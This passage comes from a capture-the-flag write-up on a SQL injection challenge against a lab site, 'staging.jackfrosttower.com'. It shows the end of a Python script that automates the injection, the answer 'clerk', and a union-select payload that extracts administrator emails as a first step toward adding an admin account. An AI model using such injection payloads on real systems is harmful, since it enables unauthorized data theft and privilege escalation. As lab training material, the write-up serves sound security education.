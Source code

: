                     for idx, result in enumerate(results):
                        print(f"{idx + 1}. {result.text.strip()}")
                else:
                    print("[+] No results found.")
            else:
                print("[-] Something went wrong :/")
        else:
            print("[-] Authentication failure")


    if __name__ == '__main__':
    cli()
    ```

![Automate SQLi](../img/objectives/o12/automate_sqli.png)

!!! done "Answer"
    clerk

!!! note "Adding an administrator account"
    While not necessary for solving the challenge, we can also leverage the same SQL injection vulnerability to add a new administrator account. Start by using the below query to perform an SQLi attack against the [/detail](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20email%20from%20users%20where%20user_status%3D1%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint. This will retrieve all emails from the `users` table for full administrator accounts.

    ```sql title="Get full admin emails"
    0,0 union select * from 
    ((select 1)F1 join (select email from users where user_status=1)F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ```

